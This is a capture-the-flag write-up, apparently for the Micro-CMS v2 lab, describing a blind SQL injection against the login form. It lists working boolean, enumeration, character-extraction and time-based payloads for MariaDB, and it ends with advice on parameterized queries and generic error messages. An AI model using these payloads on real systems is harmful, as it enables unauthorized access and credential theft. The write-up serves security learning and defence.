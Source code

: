 # Micro-CMS-v2-Blind-SQLi

I. Introduction

        Blind SQL injection (SQLi) is a type of SQL injection attack where an attacker can infer the content of the
    database without directly extracting the data. This is achieved by sending crafted SQL queries to the
    application and analyzing the response of the server, without actually seeing the database content. Blind SQLi
    is commonly used in CTF (Capture the Flag) challenges as a way to test the ability of participants to exploit
    vulnerabilities in web applications. By exploiting Blind SQLi, participants can demonstrate their skills in 
    finding and exploiting vulnerabilities, as well as their ability to analyze application behavior and logic to
    infer the content of the database. Blind SQLi challenges can vary in complexity and difficulty, ranging from
    basic Boolean-based techniques to more advanced techniques involving time delays, error messages, and other
    indicators.

II. Information Gathering

        After spinning up burp and enabling the proxy I loaded into the website and noticed a CMS changelog link.
    Upon viewing the page I can see they added a login page as well as a change that allows only admins to edit
    and add pages. Continuing mapping the application I click the Markdown Test and notice its similar to CMSv1
    but whenever you try to edit that page is directs you to a login page /admin. The last link is the Create a
    new page which also redirects you to the /admin page. With all of these POST/GET requests in Burp we can start
    to see these interactions in more detail. This concludes the mapping of the application for now.
           

III. Exploitation

        Now that the application has been mapped with all of its functionality I start to fuzz my attack surface.
    I started with the login page as that would open up the most functionality to us. I started by inputting some 
    common username/passwords and notice I get an Unknown User error. None of the easy gimmies worked like
    admin/password...etc. Onto special characters for SQL considering it is a login page and would you look at that. 
    A single apostrophe has done the job. We get an error with the exact SQL query being placed into the backend as
    well as which DB is in use, which is MariaDB. Now I know that I can escape it and write my own magic! I start    
    small and build up... 
    
    **Testing Boolean Payloads:**
    ~~~
    payload1: ' OR (1=1)# // Well that's nice, no errors and it ALSO displays a new error "Invalid Password"
    
    Payload2: ' OR (SELECT CASE WHEN (1=1) THEN 1=1 ELSE 1=2 END)# // Changing the conditionals works
    ~~~
    **Enumeration Test:**
    ~~~
    Payload3: ' OR (SELECT CASE WHEN SUBSTRING(@@version,1,1)='1' THEN 1=1 ELSE 1=2 END)# //Enumerates DB version
    ~~~
    **Enumerating Length of the 1st username:**
    ~~~
    Payload4: ' OR LENGTH(username)=5# // Enums length of username
   
    Payload5: ' OR LENGTH(password)=5# // Enums length of password
    ~~~
    **Enumerating the user/pass:**
    ~~~
    Payload6:' OR (SELECT CASE WHEN SUBSTRING(username,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    Payload7:' OR (SELECT CASE WHEN SUBSTRING(password,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    ~~~  
    
    Other Avenues for exploiting VIA TIME BASED AND UNION SELECT:
    ~~~
    Payload: ' OR (UNION SELECT NULL#) // This also doesn't give us an error but adding a second NULL value errors   
    
    Payload: ' OR (SELECT CASE WHEN SUBSTRING(password,1,1)='k' THEN sleep(10) ELSE 1=2 END)# //induces sleep if 
    condition is true. This would be better if the default login creds message was standard
    ~~~
    

    
    

IV. Flag Retrieval

    After you have retrieved the username/password you are able to login and are presented with a flag. 

V. Conclusion/Mitigation

    In summary I was able to use Blind SQLi to enumerate database contents and gain credentials to an admins account.
    For mitigation I would sanitize user input before passing it to the database and use parameterized queries. 
    I would also give a single generic message when trying to login like "unknown login credentials" instead of
    "Unknown Username" and "Invalid password". Even if SQLi wasn't present the ungeneric error messages would lead
    to username enumeration.
